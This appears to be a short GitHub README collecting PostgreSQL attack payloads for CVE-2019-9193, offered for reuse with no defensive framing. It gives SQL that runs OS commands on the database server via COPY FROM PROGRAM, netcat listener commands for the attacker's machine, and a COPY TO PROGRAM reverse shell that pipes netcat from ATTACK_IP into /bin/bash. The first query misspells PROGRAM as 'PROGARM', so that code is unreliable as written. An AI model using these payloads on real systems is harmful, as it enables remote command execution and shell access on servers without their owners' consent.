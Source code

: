 # payloads
Finally got tired of writing the same payloads over and over again.

## Postgres 9.3 > Latest Command Execution: CVE-2019-9193
**Data Exfil via COPY FROM PROGARM and SELECT**
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGARM 'whoami';
SELECT * FROM cmd_exec;
```

**Reverse Shell via COPY TO PROGRAM**
On attack machine tab1 (shell input):
```
nc -lvp 4444
```

On attack machine tab2 (shell output):
```
nc -lvp 4445
```

On the target run the payload listed below. The shell will close when the SQL
query is complete, so you need to set the number of seconds you want the shell
open for via `pg_sleep`. Also be sure to set the ATTACK_IP.
```
COPY (SELECT pg_sleep(120)) TO PROGRAM 'nc ATTACK_IP 4444 | /bin/bash -i 2>&1 | nc ATTACK_IP 4445;'
```
